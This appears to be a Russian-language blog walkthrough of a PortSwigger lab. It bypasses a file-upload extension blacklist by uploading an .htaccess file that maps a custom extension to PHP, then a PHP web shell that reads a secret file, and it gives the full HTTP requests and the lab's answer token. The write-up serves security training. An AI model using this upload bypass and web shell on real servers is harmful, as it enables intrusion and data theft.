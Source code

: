 ```yaml
---
title: "Web shell upload via extension blacklist bypass"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/
```

## Solution

Воду в аккаунт, чтобы получить доступ к форме загрузки файлов.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/1.png){: height="200" .align-center}

Попробую загрузить `php` файл.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/2.png){: height="200" .align-center}

Не удивительно, так как в названии лабы фигурует `blacklist bypass`. Значит нужно найти такое расширение, что не в ходит в этот черный список. Для этого воспользуюсь [вот этой репой](https://github.com/mathiasbynens/small/blob/master/.htaccess) на github. Ее я позаимствовал из [этого поста](https://t.me/hahacking/78). Начну попорядку с `.htaccess`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/3.png){: height="200" .align-center}

Получилось.

`.htaccess` — это конфигурационный файл веб-сервера Apache, позволяющий управлять работой веб-сервера и настройками сайта с помощью различных параметров (директив) без изменения основного конфигурационного файла веб-сервера. С помощью `AddType` я могу попробовать добавить обработку файлов с кастомным расширенем, как `php`. Попробую добавить такую функцию для файлов с расширением `.puff`:

```htaccess
AddType application/x-httpd-php .puff
```

Для его загрузки я использовал следующий запрос:

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 503
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .puff

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

Поле `Content-Type` я заменил на `text/plain`, а имя файла `filename` на `.htaccess`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/4.png){: height="200" .align-center}

Файл успешно сохранен, значит можно протестировать `.puff` файл. Для этого переименую `php` файл в `exploti.puff` и загружу его на сайт, заменив `Content-Type` на `application/x-httpd-php`.

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 537
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename="exploit.puff"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/5.png){: height="200" .align-center}

Время проверить свою аватарку)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/6.png){: height="200" .align-center}

Сдам токен `7GvfAzPQ9moCc5oEgdtXqldiB0LxX2Kr` в форму проверки для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/7.png){: height="200" .align-center}